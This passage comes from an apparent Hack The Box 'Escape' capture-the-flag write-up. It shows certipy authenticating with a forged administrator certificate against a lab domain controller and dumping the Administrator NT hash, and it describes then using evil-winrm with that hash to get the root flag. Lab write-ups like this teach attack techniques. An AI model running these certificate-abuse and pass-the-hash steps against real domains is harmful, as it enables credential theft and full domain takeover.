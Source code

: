 ```
└─$ sudo ntpdate 10.10.11.202
2023-04-05 09:41:18.350936 (+0400) +28799.588114 +/- 0.042037 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28799.588114

└─$ certipy auth -pfx administrator.pfx -username Administrator -domain "sequel.htb" -dc-ip 10.10.11.202
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

And we have the administrator hash 🥳 We can authenticate with the NT part of the hash using evil-winrm and get the root flag
![root flag](../../assets/blog/images/escape/root_flag.png)
